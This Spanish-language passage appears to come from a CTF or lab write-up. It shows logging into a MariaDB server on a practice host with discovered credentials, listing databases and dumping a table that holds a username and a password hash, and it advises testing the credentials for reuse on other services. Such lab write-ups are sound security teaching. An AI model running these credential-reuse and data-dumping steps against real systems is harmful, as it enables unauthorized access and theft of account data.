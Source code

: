 Hemos encontrado la contraseña `password1` para el usuario `capybara` para el servicio `mysql`, en este punto además de conectarnos, es importante **validar si estas credenciales se reutilizan en otros servicios expuestos**

~~~ bash
mysql -u capybara -h unrecover.dl -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 101
Server version: 10.11.6-MariaDB-0+deb12u1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
~~~

Listaremos la información dentro de las bases de datos existentes ya sea nombres de usuario, contraseñas o cualquier información que nos pueda ayudar con la intrusión

~~~
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| beta               |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.001 sec)

MariaDB [(none)]> use beta;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

MariaDB [beta]> show tables;
+----------------+
| Tables_in_beta |
+----------------+
| registraton    |
+----------------+
1 row in set (0.001 sec)

MariaDB [beta]> select * from registraton;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | balulero | 520d3142a140addb8be7d858a7e29e15 |
+----+----------+----------------------------------+
1 row in set (0.001 sec)

MariaDB [beta]> 
~~~
